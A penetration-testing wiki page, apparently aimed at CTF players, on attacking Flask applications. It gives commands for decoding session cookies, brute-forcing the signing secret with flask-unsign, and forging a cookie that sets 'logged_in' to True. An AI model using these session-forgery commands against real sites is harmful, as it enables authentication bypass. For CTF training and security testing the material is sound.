 # Flask

**Probably if you are playing a CTF a Flask application will be related to** [**SSTI**](../../pentesting-web/ssti-server-side-template-injection.md)**.**

## Cookies

### Decoder

Online Flask coockies decoder: [https://www.kirsle.net/wizards/flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi)

#### Manual

Get the first part of the cookie until the first point and Base64 decode it&gt;

```text
echo "ImhlbGxvIg" | base64 -d
```

The cookie is also signed using a password

###  **Flask-Unsign**

Command line tool to fetch, decode, brute-force and craft session cookies of a Flask application by guessing secret keys.

https://pypi.org/project/flask-unsign/

```text
pip3 install flask-unsign
```

#### **Decode Cookie**

```text
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
```

#### **Brute Force**

```text
flask-unsign --unsign --cookie < cookie.txt
```

#### **Signing**

```text
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'
```

#### Signing using legacy \(old versions\)

```text
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME' --legacy
```

#### 

